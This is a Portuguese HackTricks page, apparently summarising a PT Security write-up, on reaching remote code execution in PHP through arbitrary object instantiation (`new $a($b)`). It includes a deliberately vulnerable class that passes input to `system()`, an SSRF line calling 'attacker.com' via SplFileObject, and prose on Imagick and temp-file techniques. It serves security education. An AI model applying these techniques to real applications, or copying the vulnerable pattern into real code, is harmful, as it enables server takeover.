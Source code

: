 # PHP - RCE abusando da criação de objetos: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

Este é basicamente um resumo de [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introdução

A criação de novos objetos arbitrários, como `new $_GET["a"]($_GET["a"])`, pode levar à Execução Remota de Código (RCE), conforme detalhado em um [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Este documento destaca várias estratégias para alcançar RCE.

## RCE via Classes Personalizadas ou Autoloading

A sintaxe `new $a($b)` é usada para instanciar um objeto onde **`$a`** representa o nome da classe e **`$b`** é o primeiro argumento passado para o construtor. Essas variáveis podem ser obtidas de entradas do usuário como GET/POST, onde podem ser strings ou arrays, ou de JSON, onde podem se apresentar como outros tipos.

Considere o trecho de código abaixo:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Neste caso, definir `$a` como `App` ou `App2` e `$b` como um comando do sistema (por exemplo, `uname -a`) resulta na execução desse comando.

**Funções de Autoloading** podem ser exploradas se nenhuma dessas classes estiver diretamente acessível. Essas funções carregam automaticamente classes de arquivos quando necessário e são definidas usando `spl_autoload_register` ou `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
O comportamento do autoloading varia com as versões do PHP, oferecendo diferentes possibilidades de RCE.

## RCE via Classes Integradas

Na falta de classes personalizadas ou autoloaders, **classes integradas do PHP** podem ser suficientes para RCE. O número dessas classes varia entre 100 a 200, com base na versão do PHP e nas extensões. Elas podem ser listadas usando `get_declared_classes()`.

Construtores de interesse podem ser identificados através da API de reflexão, como mostrado no seguinte exemplo e no link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via métodos específicos inclui:**

### **SSRF + Deserialização Phar**

A classe `SplFileObject` permite SSRF através de seu construtor, permitindo conexões a qualquer URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF pode levar a ataques de desserialização em versões do PHP anteriores a 8.0 usando o protocolo Phar.

### **Explorando PDOs**

O construtor da classe PDO permite conexões a bancos de dados via strings DSN, potencialmente permitindo a criação de arquivos ou outras interações:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Versões do PHP até 5.3.22 e 5.4.12 eram suscetíveis a ataques XXE através dos construtores `SoapClient` e `SimpleXMLElement`, dependendo da versão do libxml2.

## RCE via Extensão Imagick

Na análise das **dependências de um projeto**, foi descoberto que **Imagick** poderia ser utilizado para **execução de comandos** ao instanciar novos objetos. Isso apresenta uma oportunidade para explorar vulnerabilidades.

### Parser VID

A capacidade do parser VID de escrever conteúdo em qualquer caminho especificado no sistema de arquivos foi identificada. Isso poderia levar à colocação de um shell PHP em um diretório acessível pela web, alcançando Execução Remota de Código (RCE).

#### Parser VID + Upload de Arquivo

Observa-se que o PHP armazena temporariamente arquivos enviados em `/tmp/phpXXXXXX`. O parser VID no Imagick, utilizando o protocolo **msl**, pode lidar com curingas em caminhos de arquivos, facilitando a transferência do arquivo temporário para um local escolhido. Este método oferece uma abordagem adicional para alcançar a escrita arbitrária de arquivos dentro do sistema de arquivos.

### Crash do PHP + Força Bruta

Um método descrito no [**escrito original**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) envolve o upload de arquivos que provocam uma falha no servidor antes da exclusão. Ao forçar o nome do arquivo temporário, torna-se possível para o Imagick executar código PHP arbitrário. No entanto, essa técnica foi considerada eficaz apenas em uma versão desatualizada do ImageMagick.

## Referências

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
